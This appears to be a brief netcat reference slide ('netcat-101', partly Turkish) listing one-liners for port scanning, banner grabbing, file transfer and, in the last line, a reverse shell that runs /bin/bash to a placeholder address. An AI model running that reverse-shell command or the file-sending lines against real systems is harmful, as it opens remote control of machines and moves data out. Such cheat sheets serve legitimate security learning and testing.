

# netcat-101
Port tarama : nc –v –n –z –w1 [TargetIPaddr] [start_port]-[end_port]
Banner Grabbing : echo "" | nc –v –n –w1 [TargetIPaddr] [start_port]-[end_port]
File transfer : server -> nc –l -p [LocalPort] > [outfile]
                     client -> nc –w3 [TargetIPaddr] [port] < [infile]
Reverse shell : nc [YourIPaddr] [port] –e /bin/bash

33